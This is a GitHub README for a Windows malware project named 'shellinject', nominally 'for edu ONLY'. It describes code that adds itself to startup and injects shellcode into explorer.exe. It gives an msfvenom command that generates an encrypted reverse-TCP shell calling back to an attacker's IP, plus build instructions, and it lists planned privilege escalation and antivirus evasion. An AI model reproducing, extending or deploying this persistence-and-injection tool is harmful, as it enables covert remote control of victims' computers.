 # shellinject for edu  ONLY!



code explain the code is writing itself to windows startup then it finding the pid of explorer.exe 
and injecting shell code in my example its reverse_shell 

------------------------------------------------------------------------------------

you nead to change the pass to the virus.ex in here + you can change the auto startup name 



![Screenshot (10)](https://github.com/masterconi/shellinject/assets/85493153/8c445392-241b-4eed-a331-b1ce144e0387)


-----------------------------------------------------------------------------------


before use change the shellcode to your shellcode you can generate it useing msfvenom 
for example ```msfvenom --platform windows --arch x64 EXITFUNC=thread -p windows/x64/shell/reverse_tcp_rc4 LHOST=YOURE_IP LPORT=YOURE_PORT RC4PASSWORD=YOURE_PASS EXITFUNC=thread -f c --var-name=ucReverseShell```
copy it to here  
![Screenshot (8)](https://github.com/masterconi/shellinject/assets/85493153/d8ef7109-650f-40f0-af7f-aad2e9be4628)


-------------------------------------------------------------------------------------

plus you can change the executeble to be injected in here :
![Screenshot (9)](https://github.com/masterconi/shellinject/assets/85493153/02713da7-7695-45b3-9ef7-bed1fbe6e6c4)

------------------------------------------------------


to build the repo try to do it with g++ or msvs

g++ example :``` g++ add_to_startup.cpp find_pid.cpp shellinj.cpp -o shellinj.exe```

sorry idk how copy it to msvc  ¯\\_(ツ)_/¯

----------------------------------------------------

why i did it ?

i have nothin to do at holidays :-D

--------------------------------------------------------
TODO :add priv esc , make hard to detect , make the shell code encrypted , make the shell code inject "vir.dll" , make readme.md more beautiful (✿◡‿◡)



i would be happy to get help thanks
